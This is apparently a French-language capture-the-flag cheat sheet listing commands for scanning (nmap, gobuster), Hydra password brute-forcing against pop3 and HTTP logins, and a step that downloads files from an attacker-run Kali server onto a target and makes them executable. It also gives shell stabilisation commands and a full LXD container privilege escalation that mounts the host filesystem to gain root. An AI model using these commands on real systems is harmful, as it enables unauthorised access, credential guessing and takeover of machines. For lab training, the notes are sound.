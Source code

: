 ```yaml
---
description: Outils utilisés dans la résolution des challenges.
---
```


# Outils

## 1. nmap

```shell-session
nmap $IP -A -p- -oN nmap.txt -T4
```

## 2. gobuster

```shell-session
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x ".php,.html,.txt,.zip" -u $IP -t50
```

```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x ".php,.html,.txt,.zip" -u http://$IP:8080 -t50 -U <user> -P <password>
```



## 3. Hydra

* Hydra pour pop3

```
hydra -l <user>  -P /usr/share/wordlists/rockyou.txt pop3://$IP -s <port> -t 64
```

ou

```
hydra -l <user>  -P /usr/share/wordlists/fasttrack.txt pop3://$IP -s <port> -t 64 
```

* Hydra pour http-get

```
hydra -l <user> -P /usr/share/wordlists/rockyou.txt $IP -s <port> http-get
```

## 4. Transfert de fichiers

Pour transférer des fichiers depuis la machine Kali vers la machine cible:

1. sur la machine Kali
   1. aller dans le répertoire contenant les fichiers à transférer
   2. `python3 -m http.server`
2. sur la machine cible
   1. aller dans le répertoire /dev/shm
   2. `wget < kali tun0 IP>:8000/fichier.à.transférer`
   3. rendre les fichiers exécutables avec `chmod +x`

## 5. Privilege Escalation

Voici la méthode générique que j'utilise pour trouver les possibilités de 'privilege escalation'. Cette méthode est en partie basée sur l'article Linux [Privilege Escalation: Automated Script](https://www.hackingarticles.in/linux-privilege-escalation-automated-script/).

1. sudo -l
2. [suid3num.py](https://github.com/Anon-Exploiter/SUID3NUM/tree/master)
3. [les.sh](https://github.com/The-Z-Labs/linux-exploit-suggester)
4. [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

## 6. Consolidation d'un Shell

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl Z
stty raw -echo; fg
export TERM=xterm  
(stty cols 132 rows 34)
```

## 7. Escalade de privilèges via LXD

Basé sur cet article: [LXC/LXD (Linux Container/Daemon) Privilege Escalation](https://exploit-notes.hdks.org/exploit/linux/container/lxc-lxd-privilege-escalation/)

Vérifiez que l'utilisateur sur la machine cible fait partie du groupe lxd

```shell
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
```

### 7.1 Sur la machine Kali

Préparez un conteneur linux et lancer un serveur http

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
python3 -m http.server 8000
```

### 7.2 Sur la machine cible

Téléchargez le fichier \<alpine tar.gz> et importez-le comme image dans LXC

```
cd /dev/shm
wget http://<local-ip>:8000/<alpine tar.gz>
lxc image import ./<alpine tar.gz> --alias myimage
lxc image list
```

Créez un nouveau conteneur '**mycontainer**' basé sur l'image '**myimage**' qui vient d'être importée.

```
lxc init myimage mycontainer -c security.privileged=true
```

En cas de message **“**&#x4E;o storage pool found. Please create a new storage poo&#x6C;**.”** initialisez LXD d'abord et relancez la commande.

```
lxd init
```

Montez (mount) le répertoire principal / dans le répertoire /mnt/root du conteneur 'mycontainer' que vous venez de créer

```
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
```

Démarrez votre conteneur

```
lxc start mycontainer
```

Lancez un Shell (note: l'image Alpine ne supporte qu'un shell sh)

```
lxc exec mycontainer /bin/sh
```

Vérifiez que vous êtes bien root

```
whoami
```

Rendez-vous dans le répertoire principal de la machine cible monté en /mnt/root et accédez en tant que root à toutes les données de la machine

```
cd /mnt/root

```

### 8. Outils Stéganographie

Pour trouver le mot de passe et extraire le fichier caché

```
stegseek image.jpg
```

```
// Some code
```

Voici un lien vers une liste d'outils de stéganographie que j'utilise souvent

[https://medium.com/@ria.banerjee005/steganography-tools-techniques-bba3f95c7148](https://medium.com/@ria.banerjee005/steganography-tools-techniques-bba3f95c7148)

On y retrouve notamment **strings**, **steghide**, **stegseek** et autres **exiftools**
